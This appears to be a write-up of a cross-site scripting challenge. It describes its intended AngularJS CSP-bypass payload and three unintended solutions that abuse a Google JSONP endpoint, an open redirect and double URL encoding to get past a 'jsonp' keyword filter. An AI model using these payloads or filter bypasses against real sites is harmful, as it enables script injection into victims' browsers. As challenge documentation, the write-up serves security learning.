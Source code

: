   <div data-ng-app data-ng-csp>
    {{ "abc".encode.call().alert("abc".encode.call().document.domain) }}
  </div>
</div>
Unintended
Besides the intended solution, there are 4 amazing unintended solutions.

Unintended #1 by @maple3142
At first, I didn't know there was a jsonp argument in https://www.google.com/complete/search endpoint, so there was no check for jsonp.

It's east to get a XSS by loading something like https://www.google.com/complete/search?client=chrome&q=123&jsonp=alert(document.domain)//

Later on, I implemented a check for jsonp in reloadRecaptchaScript:

if (src.includes('jsonp') || decodeURIComponent(src).includes('jsonp')) {
  throw new Error('dangerous keyword detected')
}
Unintended #2 by @smaury92
It turns out that I implemented a flawed check, can you spot the bug?

You can bypass the check by open redirect and double encoded the https://google.com/complete/search call, like this:

reloadRecaptchaScript('https://www.google.com/recaptcha/../url?q=https://www.google.com/complete/search?client=chrome%26q=%25%36%38%25%37%34%25%37%34%25%37%30%25%37%33%25%33%61%25%32%66%25%32%66%25%37%37%25%37%37%25%37%37%25%32%65%25%36%37%25%36%66%25%36%66%25%36%37%25%36%63%25%36%35%25%32%65%25%36%33%25%36%66%25%36%64%25%32%66%25%36%33%25%36%66%25%36%64%25%37%30%25%36%63%25%36%35%25%37%34%25%36%35%25%32%66%25%37%33%25%36%35%25%36%31%25%37%32%25%36%33%25%36%38%25%33%66%25%36%33%25%36%63%25%36%39%25%36%35%25%36%65%25%37%34%25%33%64%25%36%33%25%36%38%25%37%32%25%36%66%25%36%64%25%36%35%25%32%36%25%36%61%25%37%33%25%36%66%25%36%65%25%37%30%25%33%64%25%36%31%25%36%63%25%36%35%25%37%32%25%37%34%25%32%38%25%36%34%25%36%66%25%36%33%25%37%35%25%36%64%25%36%35%25%36%65%25%37%34%25%32%65%25%36%34%25%36%66%25%36%64%25%36%31%25%36%39%25%36%65%25%32%39%25%32%66%25%32%66%2523%26callback=loadScript%231')
So it passed the check for reloadRecaptchaScript.

I decided the move the check from reloadRecaptchaScript to loadScript: aszx87410/xss-challenge@7382e9b

Unintended #3 by @lbrnli1234
The check failed again.

payload:

reloadRecaptchaScript('https://www.google.com/recaptcha/../url?q=https%3A%2F%2Fwww.google.com%2Fcomplete%2Fsearch%3Fclient%3Dhp%26q%3Da%26%256asonp%3Dalert(document.domain)')
I was aware of google open redirect but I didn't notice a subtle difference. When I tried google open redirect, it returned 200 in that case and used client side redirect: https://www.google.com/url?q=https%3A%2F%2Ftech-blog.cymetrics.io&sa=D&sntz=1&usg=AFQjCNHyq6urHn6HLwj8RP09GANAlymZug

So I thought it was impossible to leverage this open redirect.

But for some other cases, it returns 302: https://www.google.com/url?sa=t&url=http://example.org/&usg=AOvVaw1YigBkNF7L7D2x2Fl532mA

Anyway, I didn't fix this unintended in the end because I don't have a good solution at the moment.
